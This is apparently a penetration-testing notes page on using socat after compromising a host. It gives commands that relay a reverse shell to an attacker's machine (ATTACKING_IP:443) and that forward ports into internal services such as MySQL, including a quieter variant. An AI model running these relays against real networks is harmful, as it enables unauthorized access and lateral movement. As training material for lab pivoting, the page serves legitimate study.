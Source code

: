 ```yaml
---
description: >-
  Socat is not just great for fully stable Linux shells, it's also superb for
  port forwarding.
---
```


# Socat



The one big **disadvantage** of socat (aside from the frequent problems people have learning the syntax), is that it is **very rarely installed by default** on a target.

Whilst the following techniques could not be used to **set up a full proxy into a target network**, it is quite possible to use them to successfully **forward ports** from both Linux and Windows **compromised targets**. In particular, socat makes **a very good relay**:

* For example, if you are attempting to get a **shell** on a **target** that does not have a **direct connection back** to your attacking computer, you could use socat to set up **a relay** on the **currently compromised machine**. This **listens** for the reverse shell from the target and then **forwards it immediately** back to the **attacking box**:

![](<../../.gitbook/assets/image (50).png>)

`Socat static binaries :`

{% embed url="https://github.com/andrew-d/static-binaries" %}

```
Think of socat as a way to join two things together -- kind of like the Portal Gun in the Portal games, it creates a link between two different locations. This could be two ports on the same machine, it could be to create a relay between two different machines, it could be to create a connection between a port and a file on the listening machine, or many other similar things.

Generally speaking, however, hackers tend to use it to either create reverse/bind shells, or, as in the example above, create a port forward. 
Specifically, in the above example we're creating a port forward from a port on the compromised server to a listening port on our own box. We could do this the other way though, by either forwarding a connection from the attacking machine to a target inside the network, or creating a direct link between a listening port on the attacking machine with the service on the internal server. This latter application is especially useful as it does not require opening a port on the compromised server.
```

***

### Reverse Shell Relay

_Socat_ to create a relay for us to send a reverse shell back to our own attacking machine (as in the diagram above).

```
# 1. First start a nc listener on the attacking box
sudo nc -lvnp 443

# 2. Next, on the compromised server, to start the relay:
./socat tcp-l:8000 tcp:ATTACKING_IP:443 &

** Note: the order of the two addresses matters here. Make sure to open the listening port first, then connect back to the attacking machine.

- tcp-l:8000 is used to create the first half of the connection -- an IPv4 listener on tcp port 8000 of the target machine.
- tcp:ATTACKING_IP:443 connects back to our local IP on port 443. 
```

* In this way, we can set up **a relay to send reverse shells through a compromised system**, back to our own **attacking machine**. This technique can also be chained quite easily; however, in many cases it may be **easier** to just upload **a static copy of netcat** to receive your reverse shell **directly on the compromised server**.

### Port Forwarding -- Easy

With _socat_ simply to open up a **listening port** on the **compromised server**, and **redirect whatever comes** into it to the **target server**.

* For example, if the **compromised server** is 172.16.0.5 and the target is port 3306 of 172.16.0.10, we could use the following command (on the compromised server) to create **a port forward**:

```
./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &
# 33060 : the port we opened on the compromised server
# 3306 : the port opened on the intended target server

- fork : used to put every connection into a new process
- reuseaddr : the port stays open after a connection is made to it
- Combined, they allow us to use the same port forward for more than one connection. 
```

This opens up port 33060 on the compromised server and redirects the input from the attacking machine straight to the intended target server, essentially giving us access to the (presumably MySQL Database) running on our target of 172.16.0.10.

* We can now connect to port 33060 on the relay (172.16.0.5) and have our connection directly relayed to our intended target of 172.16.0.10:3306.



### Port Forwarding -- Quiet

This method is marginally more complex, but doesn't require opening up a port externally on the compromised server.

```
# 1. On the attacking machine :
socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```

This opens up two ports: 8000 and 8001, creating a local port relay. What goes into one of them will come out of the other. For this reason, port 8000 also has the fork and reuseaddr options set, to allow us to create more than one connection using this port forward.

```
# 2. On the compromised relay server, execute:
./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
```

This makes a connection between our listening port 8001 on the attacking machine, and the open port of the target server. To use the fictional network from before, we could enter this command as:

```
./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &

// This would create a link between port 8000 on our attacking machine, and port 80 on the intended target (172.16.0.10), meaning that we could go to localhost:8000 in our attacking machine's web browser to load the webpage served by the target: 172.16.0.10:80!
```
